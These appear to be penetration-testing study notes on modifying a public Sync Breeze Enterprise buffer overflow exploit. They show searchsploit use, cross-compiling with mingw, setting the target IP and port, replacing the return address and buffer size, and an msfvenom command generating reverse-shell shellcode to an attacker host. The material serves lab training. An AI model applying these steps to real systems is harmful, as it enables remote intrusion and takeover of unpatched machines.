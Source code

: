

- Can be complex and difficult to modify  
	- Not only replace file paths, IPs, ports, URLs, possibly shellcode.  
		- If any of these mods alter the offset, we must adjust the buffer length to ensure we overwrite the RET properly.  
		- Some shellcode is required for exploit to work & needs to be reverse engineered to determine its safety.  
	- Also likely need to clone target env in a VM and use debugger to verify/ mod return address & offsets.  
  
  
General flow of standard stack overflow (in apps running w/o mitigations like DEP, ASLR, etc):  
1. Create large enough buffer to trigger the overflow.  
2. Take control of EIP by overwriting the RET addr by padding w/ appropriate offset.  
3. Include chosen payload w/in the buffer prepended by NOP sled.  
4. Choose correct RET addr (like JMP ESP) to redirect execution flow into our payload.  
  
  
Key diff:  
- Scripting langs are executed through an interpreter & not compiled to create a stand-alone exe.  
- Because they require an interpreter, this means we can't run a _Python_ script in an env where _Python_ isn't installed  
	- This can limit us in the field, esp if we need a stand-alone exploit (like local priv esc) that must run in an env that doesn't have Python pre-installed.  
- In a scripting lang like _Python_, concatenating a string is easy, but not allowed in a lang like C  
  
  
  
Practice - Exploit SyncBreeze Enterprise on Win client  
```bash
┌──(kali㉿kali)-[~/temp]  
└─$ searchsploit "sync breeze enterprise 10.0.28"  
--------------------------------------------------------------------------- ---------------------------------  
 Exploit Title                                                             |  Path  
--------------------------------------------------------------------------- ---------------------------------  
Sync Breeze Enterprise 10.0.28 - Denial of-Service (PoC)                   | windows/dos/43200.py  
Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow                    | windows/remote/42928.py  
Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow (PoC)              | windows/dos/42341.c  
--------------------------------------------------------------------------- ---------------------------------  
Shellcodes: No Results  
  
  
┌──(kali㉿kali)-[~/temp]  
└─$ searchsploit -m 42341
```


After mirroring the exploit to home dir, inspect code:  
- find a header indicating code is meant to be compiled on Windows  
```bash
#include <winsock2.h>  
#include <windows.h>
```
	- Meaning it'll need to be cross-compiled on Kali  




### Cross-Compiling

Recommenced to use native compilers for the specific operating system targeted by the code.  
As there are situations where we only have access to a single attack env, but need to leverage an exploit coded for a diff platform, we can use a cross-compiler.  
  
```bash
sudo apt install mingw-w64
```

[mingw-w64](mingw-w64.md) also works on Windows  
  
Compile the code into a Windows PE file:  
```bash
┌──(kali㉿kali)-[~/temp]  
└─$ i686-w64-mingw32-gcc syncBrz_EDB-42341.c -o syncBrz_exploit.exe  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0x97): undefined reference to `_imp__WSAStartup@8'  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0xa5): undefined reference to `_imp__WSAGetLastError@0'  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0xe9): undefined reference to `_imp__socket@12'  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0xfc): undefined reference to `_imp__WSAGetLastError@0'  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0x126): undefined reference to `_imp__inet_addr@4'  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0x146): undefined reference to `_imp__htons@4'  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0x16f): undefined reference to `_imp__connect@12'  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0x1b8): undefined reference to `_imp__send@16'  
/usr/bin/i686-w64-mingw32-ld: /tmp/cc9sbIkM.o:syncBrz_EDB-42341.c:(.text+0x1eb): undefined reference to `_imp__closesocket@4'  
collect2: error: ld returned 1 exit status  

```


Googling for "WSAStartup" reveals the function is found in _winsock.h_  
Googling for exact error message gives answer in Stack Overflow: [https://stackoverflow.com/questions/34384803/c-undefined-reference-to-wsastartup8](https://stackoverflow.com/questions/34384803/c-undefined-reference-to-wsastartup8)  
	(These errors occur when the linker cannot find the winsock library)  
  
  
So, incoorporating suggestion works:  
```bash
i686-w64-mingw32-gcc syncBrz_EDB-42341.c -o syncBrz_exploit.exe -lws2_32
```



### Changing Socket Info

Considering, this is a remotely-accessible vuln, we need to establish a connection. So we'll have to adjust the hardcoded IP and ports w/in the code _Lines 36 & 38_  
```bash
printf("[>] Socket created.\n");
server.sin_addr.s_addr = inet_addr("192.168.222.10");
server.sin_family = AF_INET;
server.sin_port = htons(80);
```

 
Will need to either **nc** it over to the Win machine to run OR run w/ **wine**  
  
(IF running wine & there's an error: wine: could not load kernel32.dll, status c0000135 follow these instructions: [https://forum.manjaro.org/t/wine-could-not-load-kernel32-dll-status-c0000135/69811)](https://forum.manjaro.org/t/wine-could-not-load-kernel32-dll-status-c0000135/69811))    



### Changing the Return Address:  
  
_Line 74_ - Has the RET address set for an address w/in _msvbvm60.dll_, which we know isn't utilized by SyncBreeze.  
 
  
From earlier work w/ exploiting the app, we can replace the RET address w/ the one we used before: “\x83\x0c\x09\x10”; 0x10090c83 which points to the JMP ESP register  
  
If we haven't worked w/ the app previously, we can recreate the target env locally & use a debugger to determine the addr.  
If this isn't possible, we could use info from other publicly available exploits to get a reliable RET which will match our target env.  
- This isn't the most reliable  
Alternatively, we can obtain a RET directly from the target machine.  
- Need access as an unprivileged user,  
	- Run an exploit to elevate priv,  
	- Copy the DLLs that we're interest in onto our attack machine  
	- Use disassemblers or [msfpescan](msfpescan.md) to obtain a reliable RET



### Changing the Payload:

Taking a look at the payload given w/ in the exploit, it's difficult to determine its purpose. Only thing we _can_ see is the nop sled.  
So, it's crucial we replace the given shellcode w/ our own (keeping the nops)  
  
Use [msfvenom](msfvenom.md) and the previous list of [bad characters](11%20-%20BO%20Win.md#bad%20chars) to generate shellcode:  
  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.222 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


As we've changed several things (& as discovered when running the exploit), our overflow does not quite fully cover EIP. So we need to modify it.  



### Changing the Overflow Buffer:

Looking at where the first part of our large padding buffer of A's are created, we see it starts w/ a call to _malloc_ w/ a size of 780:  
_Lines 70-71_  
```c
int initial_buffer_size = 780;  
char *padding = malloc(initial_buffer_size);
```

  
  
As 780 is the same offset we discovered during our [Win BO](11%20-%20BO%20Win.md#eip), that should be fine.  
  
However, looking at the rest of the code surrounding the buffer, we see that the final buffer is constructed as a string.  
C lang makes use of null-terminated strings. Meaning functions such as _strcpy_ and _strcat_ determine the end and size of a string by searching for the first NULL in the char array.  
  
Meaning, we end up concatenating (_strcat_) a string of 779 A's rather thanb the 780.  
_Lines 73, 110-118_  
```c
memset(padding + initial_buffer_size -1, 0x00, 1);  
...  
...  
char *buffer = malloc(buffer_length);  
memset(buffer, 0x00, buffer_length);  
strcpy(buffer, request_one);  
strcat(buffer, content_length_string);  
strcat(buffer, request_two);  
strcat(buffer, padding);  
strcat(buffer, retn);  
strcat(buffer, shellcode);  
strcat(buffer, request_three);
```


In order to fix this, we only need to increase the requested memory size defined by the _initial_buffer_size_ var by 1:  
_Line 70_  
```c
int initial_buffer_size = 781;
```